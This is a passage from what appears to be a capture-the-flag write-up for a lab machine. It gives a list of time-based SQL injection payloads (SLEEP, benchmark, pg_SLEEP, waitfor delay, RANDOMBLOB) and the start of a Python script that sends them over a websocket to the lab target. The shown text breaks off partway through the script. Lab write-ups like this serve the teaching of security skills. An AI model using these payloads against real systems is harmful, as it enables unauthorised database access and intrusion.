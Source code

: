 ```plaintext
or SLEEP(5)
or SLEEP(5)#
or SLEEP(5)--
or SLEEP(5)="
or SLEEP(5)='
waitfor delay '00:00:05'
waitfor delay '00:00:05'--
waitfor delay '00:00:05'#
benchmark(50000000,MD5(1))
benchmark(50000000,MD5(1))--
benchmark(50000000,MD5(1))#
or benchmark(50000000,MD5(1))
or benchmark(50000000,MD5(1))--
or benchmark(50000000,MD5(1))#
pg_SLEEP(5)
pg_SLEEP(5)--
pg_SLEEP(5)#
or pg_SLEEP(5)
or pg_SLEEP(5)--
or pg_SLEEP(5)#
'\"
AnD SLEEP(5)
AnD SLEEP(5)--
AnD SLEEP(5)#
&&SLEEP(5)
&&SLEEP(5)--
&&SLEEP(5)#
' AnD SLEEP(5) ANd '1
'&&SLEEP(5)&&'1
ORDER BY SLEEP(5)
ORDER BY SLEEP(5)--
ORDER BY SLEEP(5)#
(SELECT * FROM (SELECT(SLEEP(5)))ecMj)
(SELECT * FROM (SELECT(SLEEP(5)))ecMj)#
(SELECT * FROM (SELECT(SLEEP(5)))ecMj)--
+benchmark(3200,SHA1(1))+'
+ SLEEP(10) + '
RANDOMBLOB(500000000/2)
AND 2947=LIKE('ABCDEFG',UPPER(HEX(RANDOMBLOB(500000000/2))))
OR 2947=LIKE('ABCDEFG',UPPER(HEX(RANDOMBLOB(500000000/2))))
RANDOMBLOB(1000000000/2)
AND 2947=LIKE('ABCDEFG',UPPER(HEX(RANDOMBLOB(1000000000/2))))
OR 2947=LIKE('ABCDEFG',UPPER(HEX(RANDOMBLOB(1000000000/2))))
SLEEP(1)/*' or SLEEP(1) or '" or SLEEP(1) or "*/
```

After this we have to change a bit the source code to make it send all the lines as input, with the goal to trigger some vulns

```python
import asyncio
import websockets

async def connect_websocket():
    async with websockets.connect("ws://soc-player.soccer.htb:9091/") as websocket:
        print("WebSocket connection established.")
        
        while True:

            wordlist = "timeBasedPayloads.txt"

            with open(wordlist, "r") as list:

                for payload in list:
```